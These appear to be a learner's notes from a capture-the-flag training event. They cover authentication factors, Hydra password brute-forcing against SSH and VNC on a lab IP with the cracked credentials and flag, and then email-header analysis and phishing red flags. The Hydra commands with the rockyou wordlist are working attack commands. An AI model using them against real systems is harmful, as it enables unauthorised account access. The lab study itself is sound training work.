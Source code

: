 AUTHENTICATION
- something you know (passwords, PIN)
- something you have (hard/software/phone)
- something you are (biometrics) 

` 10.10.57.239 `

Hydra
`hydra -l username -P wordlist.txt IP service` 
service can be `rdp, vnc, ftp, pop3`

- `hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.57.239 ssh`
- `hydra -l mark -P /usr/share/wordlists/rockyou.txt ssh://10.10.57.239`

`hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://10.10.57.239 -V`
- ` alexander : sakura `

AttackBox > Applications > Internet > Remmina > cancel keyring 
change drop down to VNC 
`vnc 10.10.57.239` > password ?

`hydra -P /usr/share/wordlists/rockyou.txt vnc://10.10.57.239 `
- password ` 1q2w3e4r `
- ` THM{I_SEE_YOUR_SCREEN} `

## Day 6 - Email analysis

email header sections , tools for email attachments

Email analysis is the process of extracting the email header information to expose the email file details. The email header contains the technical details of the email like sender, recipient, path, return address and attachments.

- security issues = ID suspicious / abnormal patterns
- performance issues = ID delivery and delay issues in emails
- social engineering = psychological manipulations of people into performing / divulging info by exploiting weaknesses
- phishing 

Fields 
- from, to , date, subject, return path
- Domain Key and DKIM Signatures = email signatures by email service to ID and authenticate emails
- SPF shows server that was used to send the email (specific domain)
- message-ID = unique ID of the email
- MIME version = the delivered 'non-text' contents & attachments
- X-headers = mail providers add these fields 
- X-received = mail server that the email went through
- X-spam status = spam score of the email
- X-mailer = email client name

RED FLAGS 
- invalid email addresses (from, to, cc)
- same sender & recipient (from, to)
- different values in 'from' and 'return path'
- email sent from official mail servers
- Message-ID is empty or malformed
- hyperlinks redirect to abnormal sites
